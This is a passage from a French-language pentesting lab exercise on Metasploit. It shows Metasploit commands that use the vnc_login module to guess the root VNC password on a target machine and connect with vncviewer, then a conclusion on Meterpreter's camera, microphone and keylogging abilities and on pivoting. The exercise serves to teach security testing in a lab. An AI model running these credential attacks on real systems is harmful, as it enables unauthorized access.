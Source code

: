 

### Exploit 6 : VNC (port 5900)

Un dernier exploit pour la route. Découvrez quel mot de passe est associé au
compte *root* du service VNC qui tourne sur la machine cible. Vous utiliserez
pour cela le module `vnc_login`.


```text
use auxiliary/scanner/vnc/vnc_login
set RHOSTS @IPcible
set USERNAME root
run
```

Quel mot de passe est associé à ce username (root) ?

```text
Login successful : ___________
```
Validez ces *credentials* dans un terminal avec la commande `vncviewer`.

```text
vncviewer @IPcible
Mot de passe : ___________
```



---

# Conclusion

Dans ce TP nous avons vu quelques fonctionnalités du framework Metasploit.
C'est un outil puissant néanmoins tous les exploits peuvent être réalisé sans
l'usage de Metasploit. Cela demande alors généralement un peu plus
d'investissement de la part du pentesteur.
Nous avons également vu (trop) rapidement l'interpreteur *Meterpreter*. C'est
un outil qui peut s'averer redoutable notamment quand la cible est un poste
Windows (prise de contrôle de la caméra, du micro et keylogging).  

Enfin certaines attaques vues dans ce TP sont bien trop *bruyantes* pour être
réalistes dans un réseau administré correctement. Néanmoins nous avons  aussi vu
des outils qui ne laissent pas ou peu de trace sur la machine victime.
Enfin un autre point non abordé dans ce TP est la notion de *pivoting* qui
consiste a utiliser une première machine compromise pour attaquer d'autres
machines initialement inaccessible.

```text

         .                                         .
 .

      dBBBBBBb  dBBBP dBBBBBBP dBBBBBb  .                       o
       '   dB'                     BBP
    dB'dB'dB' dBBP     dBP     dBP BB
   dB'dB'dB' dBP      dBP     dBP  BB
  dB'dB'dB' dBBBBP   dBP     dBBBBBBB

                                   dBBBBBP  dBBBBBb  dBP    dBBBBP dBP dBBBBBBP
          .                  .                  dB' dBP    dB'.BP
                             |       dBP    dBBBB' dBP    dB'.BP dBP    dBP
                           --o--    dBP    dBP    dBP    dB'.BP dBP    dBP
                             |     dBBBBP dBP    dBBBBP dBBBBP dBP    dBP

                                                                    .
                .
        o                  To boldly go where no
```